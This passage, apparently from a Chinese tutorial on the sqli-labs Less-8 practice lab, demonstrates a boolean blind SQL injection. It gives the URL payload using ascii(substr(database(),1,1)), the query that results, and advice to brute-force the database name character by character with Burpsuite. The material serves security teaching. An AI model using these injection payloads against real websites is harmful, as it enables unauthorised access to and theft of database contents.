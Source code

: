 下面同样以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115#' LIMIT 0,1;
;
```

网站的反应为：

![](image/11.jpg)

使用此方法就可以直接通过`Burpsuite`爆破出数据库名。

为了避免有些人不按照命名规则命名，可以对ASCII码值33到126进行遍历枚举。

![](image/12.jpg)
